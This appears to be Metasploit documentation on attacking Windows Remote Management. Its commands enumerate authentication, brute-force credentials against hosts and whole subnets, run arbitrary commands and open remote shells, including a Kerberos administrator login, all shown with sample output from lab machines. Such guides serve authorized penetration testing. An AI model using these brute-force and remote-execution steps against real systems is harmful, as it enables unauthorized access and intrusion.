 ## WinRM Workflows

Windows Remote Management (WinRM), is a way for clients to remotely manage Windows computers. WinRM is built on top of the Simple Object Access Protocol (SOAP) over HTTP(S).

There are two main ports for WinRM:

- 5985/TCP - HTTP
- 5986/TCP - HTTPS

On older versions of Windows such as Windows 7/Windows Server 2008 the following ports were used:

- 80/TCP - HTTP
- 443/TCP - HTTPS

Important: Before running the chosen WinRM Metasploit module, first ensure that the `RPORT` and `SSL` values are configured correctly.
Either with the modern inline option support:

```
use scanner/winrm/winrm_auth_methods

run http://192.168.123.139:5985
run https://192.168.123.139:5986
```

Or by manually setting options:

```
use scanner/winrm/winrm_auth_methods
set RHOST 192.168.123.139
set RPORT 5985
set SSL false
run
```

Metasploit has support for multiple WinRM modules, including:

- Authentication enumeration
- Verifying/bruteforcing credentials
- Running commands and opening sessions

There are more modules than listed here, for the full list of modules run the `search` command within msfconsole:

```
msf6 > search winrm
```

### Lab Environment

The WinRM modules work against Windows instances which have WinRM installed and configured.

For a domain controller the `Allow remote server management through WinRM` policy will need be enabled.
It is only possible to use WinRM against accounts which are part of the `Remote Management Users` group.

WinRM over HTTPS requires the creation of a Server Authenticating Certificate, as well as enabling the transport mode:

```
winrm quickconfig -transport:https
```

### Authentication Enumeration

Enumerate WinRm authentication mechanisms:

```
use scanner/winrm/winrm_auth_methods
run http://192.168.123.139:5985
run https://192.168.123.139:5986
```

Example:

```
msf6 auxiliary(scanner/winrm/winrm_auth_methods) > run http://192.168.123.139:5985

[+] 192.168.123.139:5985: Negotiate protocol supported
[+] 192.168.123.139:5985: Kerberos protocol supported
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

### WinRM Bruteforce

Brute-force host with known user and password list:

```
use scanner/winrm/winrm_login
run https://known_user@192.168.222.1:5986 threads=50 pass_file=./wordlist.txt
```

Brute-force credentials:

```
use scanner/winrm/winrm_login
run http://192.168.123.139:5985 threads=50 user_file=./users.txt pass_file=./wordlist.txt
```

Brute-force credentials in a subnet:

```
use scanner/winrm/winrm_login
run cidr:/24:http://user:pass@192.168.222.0:5985 threads=50
run cidr:/24:http://user@192.168.222.0:5985 threads=50 pass_file=./wordlist.txt
```

### WinRM CMD

To execute arbitrary commands against a windows target:

```
use scanner/winrm/winrm_cmd
run http://user:pass@192.168.123.139:5985 cmd='whoami; ipconfig; systeminfo'
```

### WinRM Login Session

If you have valid credentials the `scanner/winrm/winrm_login` module will open a Metasploit session for you:

```
use scanner/winrm/winrm_login
run http://user:pass@192.168.123.139:5985
```

Example:

```
msf6 auxiliary(scanner/winrm/winrm_login) > run http://user:pass@192.168.123.139:5985

[!] No active DB -- Credential data will not be saved!
[+] 192.168.123.139:5985 - Login Successful: WORKSTATION\user:pass
[*] Command shell session 7 opened (192.168.123.1:58673 -> 192.168.123.139:5985 ) at 2022-04-23 02:36:34 +0100
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/winrm/winrm_login) > sessions -i -1
[*] Starting interaction with 7...

Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Users\user>
```

### Kerberos Authentication

Details on the Kerberos specific option names are documented in [[Kerberos Service Authentication|kerberos/service_authentication]]

Open a WinRM session:

```
msf6 > use auxiliary/scanner/winrm/winrm_login
msf6 auxiliary(scanner/winrm/winrm_login) > run rhost=192.168.123.13 username=Administrator password=p4$$w0rd win::rmauth=kerberos domaincontrollerrhost=192.168.123.13 winrm::rhostname=dc3.demo.local domain=demo.local

[+] 192.168.123.13:88 - Received a valid TGT-Response
[*] 192.168.123.13:5985   - TGT MIT Credential Cache ticket saved to /Users/user/.msf4/loot/20230118120604_default_192.168.123.13_mit.kerberos.cca_451736.bin
[+] 192.168.123.13:88 - Received a valid TGS-Response
[*] 192.168.123.13:5985   - TGS MIT Credential Cache ticket saved to /Users/user/.msf4/loot/20230118120604_default_192.168.123.13_mit.kerberos.cca_889546.bin
[+] 192.168.123.13:88 - Received a valid delegation TGS-Response
[+] 192.168.123.13:88 - Received AP-REQ. Extracting session key...
[+] 192.168.123.13:5985 - Login Successful: demo.local\Administrator:p4$$w0rd
[*] Command shell session 1 opened (192.168.123.1:50722 -> 192.168.123.13:5985) at 2023-01-18 12:06:05 +0000
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/winrm/winrm_login) > sessions -i -1
[*] Starting interaction with 1...

Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Users\Administrator>
```
